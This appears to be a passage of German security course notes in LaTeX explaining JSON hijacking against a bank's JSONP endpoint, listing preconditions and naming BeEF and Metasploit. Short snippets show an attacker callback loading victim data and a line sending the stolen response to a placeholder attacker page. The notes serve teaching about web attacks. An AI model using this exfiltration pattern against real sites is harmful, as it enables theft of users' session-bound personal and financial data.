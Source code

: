 \subsection{Tools} 
\begin{itemize}
	\item BeEf / Metasploit
\end{itemize}

\section{JSON Hijacking}
\begin{itemize}
	\item Die Bank muss JSON mit AJAX über GET an das Opfer ausliefern.
	\item GET Parameter müssen bekannt oder eratbar sein
	\item Die Webseite muss ein Cookie basierendes Session Handling verwenden
	\item Das Opfer muss die Seite der Bank bereits besucht haben und anschliessend auf die Seite des Angreifer gelockt werden. 
	\item JSONP (JavaScript Object Notation with Padding) ist besonders anfällig für JSON Hijacking. Mit Plain JSON geht es nur in sehr alten Browser. Bei JSONP wird der Array Construktor überschrieben. 
\end{itemize}

\subsection{Vorgehen}
\begin{enumerate}
	\item Der Benutzer bekommt ein JS von der Hacker Seite
\begin{lstlisting}
// overloaded function
function invoke(data) {
	// exfiltrate
}

// load data from bank and exfiltrate over overloaded function
<script src="bank.com/action=getUserData&func=invoke"></script>
\end{lstlisting}
	\item Das JS lädt ein JSON Objekt von der Bank Seite
\begin{lstlisting}
invoke({
	"Username" : "hacker10",
	"Name" : "Fritz",
	"Creditcard" : "1323-4545-6767-8989"
})
\end{lstlisting}
	\item Das JS exfiltriert die Daten an die Hacker Seite
\begin{lstlisting}
// exfiltrate
new Image().src = [IP Landing Page] /?drop + escape(response)
\end{lstlisting}
\end{enumerate}

